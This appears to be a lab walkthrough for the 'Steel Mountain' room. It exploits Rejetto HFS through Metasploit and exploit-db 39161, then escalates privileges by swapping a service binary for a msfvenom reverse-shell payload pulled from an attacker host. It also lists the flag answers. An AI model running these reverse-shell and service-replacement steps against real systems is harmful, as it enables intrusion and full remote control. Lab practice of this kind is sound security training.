 # Steel Mountain

## :man\_mechanic: Introduction

### **Who is the employee of the month?**

* Browse the website

{% hint style="success" %}
Bill Harper
{% endhint %}

## :foot: Initial Access

### **What is the other port running a web server on?**

```bash
sudo nmap 10.10.185.36
```

![](<../../.gitbook/assets/Screenshot from 2020-09-07 09-44-30.png>)

{% hint style="success" %}
8080
{% endhint %}

### **What file server is running?**

```bash
sudo nmap -sV -p8080 10.10.185.36
```

![](<../../.gitbook/assets/Screenshot from 2020-09-07 09-48-26.png>)

{% hint style="success" %}
Rejetto HTTP File Server
{% endhint %}

### **What is the CVE number to exploit this file server?**

```
searchsploit rejetto http file server
```

![](<../../.gitbook/assets/Screenshot from 2020-09-07 09-56-53.png>)

![](<../../.gitbook/assets/Screenshot from 2020-09-07 09-56-57.png>)

{% hint style="success" %}
2014-6287
{% endhint %}

### **What is the user flag?**

```bash
msfconsole -q
msf5 > search rejetto
msf5 > use 0
msf5 > set RHOSTS 10.10.185.36
msf5 > set RPORT 8080
msf5 > set LHOST 10.9.101.193
msf5 > exploit
meterpreter > shell
C:\Users\bill\AppData>type C:\Users\bill\Desktop\user.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-09-07 10-08-57.png>)

{% hint style="success" %}
b04763b6fcf51fcd7c13abc7db4fd365
{% endhint %}

## :top: Privilege Escalation

```
meterpreter > upload /home/kali/enum/PowerUp.ps1
meterpreter > load powershell
meterpreter > powershell_shell
PS > . .\Powerup.ps1
PS > Invoke-AllChecks
```

![](<../../.gitbook/assets/Screenshot from 2020-09-07 10-24-02.png>)

### Take close attention to the CanRestart option that is set to true. What is the service name?

![](<../../.gitbook/assets/Screenshot from 2020-09-07 10-29-15.png>)

{% hint style="success" %}
AdvancedSystemCareService9
{% endhint %}

### Upload your binary and replace the legitimate one. Then restart the program to get a shell as root.

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.9.101.193 LPORT=4445\
         -e x86/shikata_ga_nai -f exe -o ASCService.exe
nc -nvlp 4445
```

![](<../../.gitbook/assets/Screenshot from 2020-09-07 11-00-27.png>)

```
meterpreter > upload /home/kali/enum/ASCService.exe
meterpreter > shell
>sc stop AdvancedSystemCareService9
>copy ASCService.exe "C:\Program Files (x86)\IObit\Advanced SystemCare\"
>sc start AdvancedSystemCareService9
```

### **What is the root flag?**

```
>type C:\Users\Administrator\Desktop\root.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-09-07 11-15-51.png>)

{% hint style="success" %}
9af5f314f57607c00fd09803a587db80
{% endhint %}

## :top: Access and Escalation Without Metasploit

#### web server

```bash
wget https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/raw/master/winPEAS/winPEASexe/winPEAS/bin/x64/Release/winPEAS.exe \
     -O winPEAS.exe
wget https://github.com/andrew-d/static-binaries/raw/master/binaries/windows/x86/ncat.exe \
     -O nc.exe
sudo python3 http.server 80
```

#### netcat listener

```bash
nc -nvlp 4444
>type C:\Users\bill\Desktop\user.txt
```

#### exploit

```bash
searchsploit rejetto http file server
cp /usr/share/exploitdb/exploits/windows/remote/39161.py .
vim 39161.py
# ip_addr = "10.9.101.193"
# local_port = "4444"
python3 39161.py 10.10.41.184 8080
python3 39161.py 10.10.41.184 8080
```

### What command could we run to manually find out the service name?

```bash
>powershell -c wget http://10.9.101.193/winPEAS.exe -outfile winPEAS.exe
>winPEAS.exe
```

![](<../../.gitbook/assets/Screenshot from 2020-09-07 12-18-56.png>)

{% hint style="success" %}
powershell -c "Get-Service"
{% endhint %}

### Escalate to Administrator

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.9.101.193 LPORT=4445\
         -e x86/shikata_ga_nai -f exe -o ASCService.exe
nc -nvlp 4445
>type C:\Users\Administrator\Desktop\root.txt
```

```
>powershell -c "wget http://10.9.101.193/ASCService.exe -outfile ASCService.exe"
>sc stop AdvancedSystemCareService9
>copy ASCService.exe "C:\Program Files (x86)\IObit\Advanced SystemCare\"
>sc start AdvancedSystemCareService9
```

## :link: Support Material

{% embed url="https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1" %}

{% embed url="https://www.exploit-db.com/exploits/39161" %}

{% embed url="https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS" %}

